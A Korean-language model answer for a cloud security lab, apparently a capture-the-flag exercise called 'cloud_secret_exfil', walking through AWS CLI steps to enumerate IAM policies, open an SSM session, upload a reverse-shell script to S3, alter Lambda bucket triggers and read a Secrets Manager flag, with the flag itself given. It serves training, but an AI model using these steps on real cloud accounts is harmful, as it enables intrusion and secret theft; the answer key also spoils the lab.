 # [cloud_secret_exfil] 모범 답안

## Easy Route
1. 최초 제공된 2개의 자격 증명 중에서 easy route의 자격 증명을 이용하여 프로파일을 등록한다.
```bash
aws configure --profile easyroute
```

2. 먼저 사용자에 대한 정보를 확인한다.
```bash
aws sts get-caller-identity --profile easyroute
```

3. 해당 사용자의 인라인 정책을 확인한다.
```bash
aws iam list-user-policies --user-name attacker-user-2 --profile easyroute
```

4. 해당 인라인 정책의 권한을 확인하여 ssm관련 권한이 있는 것을 확인한다.
```bash
aws iam get-user-policy --user-name attacker-user-2 --policy-name attacker-user-policy-2 --profile easyroute
```

5. ssm 세션을 시작하기 위해 session-manager plugin을 설치한다.
```bash
curl -o session-manager-plugin.deb https://s3.amazonaws.com/session-manager-downloads/plugin/latest/ubuntu_64bit/session-manager-plugin.deb

sudo dpkg -i session-manager-plugin.deb

session-manager-plugin
```

6. 접속할 인스턴스의 id를 확인한다.
```bash
aws ec2 describe-instances --query "Reservations[].Instances[].InstanceId" --output text --profile easyroute
```


7. ssm 세션을 시작하여 ec2내로 접속을 한다.
```bash
aws ssm start-session --target <ec2id> --profile easyroute
```


8. SecretsManager의 비밀 목록을 확인한다.
```bash
aws secretsmanager list-secrets
```

9. Secret을 확인하여 비밀 FLAG를 획득한다.
```bash
aws secretsmanager get-secret-value --secret-id secretFLAG-OrcAHYV87Uuzb1KB
```
<br/><br/>
## Hard Route
1. 최초 제공된 2개의 자격 증명 중에서 easy route의 자격 증명을 이용하여 프로파일을 등록한다.
```bash
aws configure --profile hardroute
```

2. 먼저 사용자에 대한 정보를 확인한다.
```bash
aws sts get-caller-identity --profile hardroute
```

3. 해당 사용자의 인라인 정책을 확인한다.
```bash
aws iam list-user-policies --user-name attacker-user-1 --profile hardroute
```

4. 해당 인라인 정책의 권한을 확인하여 lambda관련 권한 및 s3 업로드 권한 있는 것을 확인한다.
```bash
aws iam get-user-policy --user-name attacker-user-1 --policy-name attacker-user-policy-1 --profile hardroute 
```

5. 리버스 쉘 스크립트를 작성한다.
```bash
sudo vi exec.sh
```

6. 해당 파일을 s3내에 업로드한다.
```bash
aws s3 cp exec.sh s3://kcloudlab-cloud-secret-exfil-s3bucket/exec.sh --profile hardroute
```
- 이때 성공적으로 실행되지 않아 아무 사건이 발생하지 않는다.

7. Lambda 함수 트리거중에 S3 버킷 트리거가 있는지를 확인한다.
```bash
aws s3api get-bucket-notification-configuration --bucket kcloudlab-cloud-secret-exfil-s3bucket --profile hardroute
```

8. S3 버킷에 연결된 lambda 트리거를 삭제하기 위해 먼저 설정을 백업한다.
```bash
aws s3api get-bucket-notification-configuration --bucket kcloudlab-cloud-secret-exfil-s3bucket > a.json --profile hardroute
```

9. 백업한 설정에서 LambdaFunctionConfigureations 부분을 삭제한다.
```bash
sudo vi a.json
```

10. 수정한 설정 파일을 다시 덮어써서 설정을 변경한다.
```bash
aws s3api put-bucket-notification-configuration --bucket kcloudlab-cloud-secret-exfil-s3bucket --notification-configuration file://a.json  --profile hardroute
```

11. 다시 한 번 리버스 쉘을  s3내에 업로드하면 된다. 그러면 EC2에 접속할 수 있다.
``bash
aws s3 cp exec.sh s3://kcloudlab-cloud-secret-exfil-s3bucket/exec.sh --profile hardroute
```

12. SecretsManager의 비밀 목록을 확인한다.
```bash
aws secretsmanager list-secrets
```

13. Secret을 확인하여 비밀 FLAG를 획득한다.
```bash
aws secretsmanager get-secret-value --secret-id secretFLAG-OrcAHYV87Uuzb1KB
```



`flag` : FLAG{congratulations}
